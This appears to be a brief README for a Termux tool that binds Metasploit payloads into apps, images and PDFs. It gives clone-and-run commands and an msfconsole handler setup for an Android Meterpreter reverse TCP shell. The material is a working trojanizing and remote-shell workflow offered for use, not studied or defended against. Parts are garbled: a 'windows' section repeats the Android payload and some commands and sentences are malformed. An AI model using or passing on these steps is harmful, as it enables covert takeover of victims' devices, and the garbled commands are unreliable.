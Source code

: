 
This to is used to bind payload with other apps, images, PDFs, etc.

This will also help in making payload in metasploit.

And this can help you to install metasploit newest version.

pkg update && pkg upgrade -y

pkg install git && pkg install python && pkg install python2

git clone https://github.com/Adia12528/Payload_binding-tool.git

cd Payload_binding-tool

python payload_maker_tool.py

After the app is being.
Your apk is saved in your internal storage downloads.
And not you can use msfconsole exploit:

use exploit/multi/handler

use android/meterpreter/reverse_tcp 

Or for windows;

use android/meterpreter/reverse_tcp 
set LHOST "your ip"
set LPORT "used port in payload"
exploit
